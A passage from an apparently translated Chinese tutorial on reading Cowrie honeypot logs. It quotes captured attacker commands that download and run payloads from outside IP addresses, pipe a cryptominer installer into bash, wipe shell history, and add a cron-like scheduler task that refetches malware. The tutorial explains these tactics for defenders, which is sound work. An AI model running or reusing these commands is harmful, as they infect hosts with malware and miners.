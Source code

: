 我们还可以查找各种攻击者试图运行的命令。 在这些例子中，他们试图下载额外的 Linux 工具，因为蜜罐似乎缺少一些，或可能一些恶意软件持续运行:

```sh
2021-07-19T02:31:55.443537Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,5,141.98.10.56] Command found: wget http://142.93.105.28/a
2021-07-17T11:44:11.929645Z [CowrieTelnetTransport,4,58.253.13.80] CMD: cd /tmp || cd /var/ || cd /var/run || cd /mnt || cd /root || cd /; rm -rf i; wget http://58.253.13.80:60232/i; curl -O http://58.253.13.80:60232/i; /bin/busybox wget http://58.253.13.80:60232/i; chmod 777 i || (cp /bin/ls ii;cat i>ii;rm i;cp ii i;rm ii); ./i; echo -e '\x63\x6F\x6E\x6E\x65\x63\x74\x65\x64'
2021-07-18T07:12:02.082679Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,33,209.141.53.60] executing command "b'cd /tmp || cd
 /var/run || cd /mnt || cd /root || cd /; wget http://205.185.126.121/8UsA.sh; curl -O http://205.185.126.121/8UsA.sh; chmod 777 8UsA.sh; sh 8UsA.sh; tftp 205.185.126.121 -c get t8UsA.sh; chmod 777 t8UsA.sh; sh t8UsA.sh; tftp -r t8UsA2.sh -g 205.185.126.121; chmod 777 t8UsA2.sh; sh t8UsA2.sh; ftpget -v -u anonymous -p
anonymous -P 21 205.185.126.121 8UsA1.sh 8UsA1.sh; sh 8UsA1.sh; rm -rf 8UsA.sh t8UsA.sh t8UsA2.sh 8UsA1.sh; rm -rf *'"
```

注意，第一个攻击者在末尾以十六进制形式发送了一个 ASCII 字符串`'\x63\x6F\x6E\x6E\x65\x63\x74\x65\x64'`，即“connected”。 这可能是为了躲避入侵防御。 Base64 编码是您将在蜜罐日志中看到的另一种常见的规避技术。

第二个攻击者有一系列`rm`命令，用于在他们完成目标后清理他们的各种工作文件。

请注意，您在 SSH 日志中可能看到的另一件事情是语法错误。 通常这些都是来自测试较差的脚本，但一旦更频繁地建立会话，您将看到一个真正的人在敲击键盘，因此您可以从任何错误中了解他们的技能水平(或他们所在时区的深夜)。

在下面这些例子中，攻击者试图下载加密货币矿工应用程序，将他们新入侵的 Linux 主机添加到他们的加密货币挖掘“农场”:

```sh
2021-07-19T02:31:55.439658Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,5,141.98.10.56] executing command "b'curl -s -L https://raw.githubusercontent.com/C3Pool/xmrig_setup/master/setup_c3pool_miner.sh | bash -s 4ANkemPGmjeLPgLfyYupu2B8Hed2dy8i6XYF7ehqRsSfbvZM2Pz7 bDeaZXVQAs533a7MUnhB6pUREVDj2LgWj1AQSGo2HRj; wget http://142.93.105.28/a; chmod 777 a; ./a; rm -rfa ; history -c'"
2021-07-19T04:28:49.356339Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,9,142.93.97.193] executing command "b'curl -s -L https://raw.githubusercontent.com/C3Pool/xmrig_setup/master/setup_c3pool_miner.sh | bash -s 4ANkemPGmjeLPgLfyYupu2B8Hed2dy8i6XYF7ehqRsSfbvZM2Pz7 bDeaZXVQAs533a7MUnhB6pUREVDj2LgWj1AQSGo2HRj; wget http://142.93.105.28/a; chmod 777 a; ./a; rm -rfa; history -c'"
```

注意，它们都在它们的命令中添加了一个`history –c`附录，该附录清除了当前会话的交互历史，以隐藏攻击者的活动。

在这个例子中，攻击者试图添加一个恶意软件下载到 Linux 调度程序 cron 中，这样他们就可以保持持久性——如果他们的恶意软件被终止或删除，当下一次计划任务到来时，它将被重新下载并重新安装:

```sh
2021-07-19T04:20:03.262591Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,4,103.203.177.10] executing command "b'/system scheduler add name="U6" interval=10m on-event="/tool fetch url=http://bestony.club/poll/24eff58f-9d8a-43ae-96de-71c95d9e6805 mode=http dst-path=7wmp0b4s.rsc\\r\\n/import 7wmp0b4s.rsc" policy=api,ftp,local,password,policy,read,reboot,sensitive,sniff,ssh,telnet,test,web,winbox,write'"
```

攻击者试图下载的各种文件被收集在`/srv/cowrie/var/lib/cowrie/downloads`目录中。

你可以自定义宝贝蜜罐-一些常见的改变，你可能会设在以下地方:
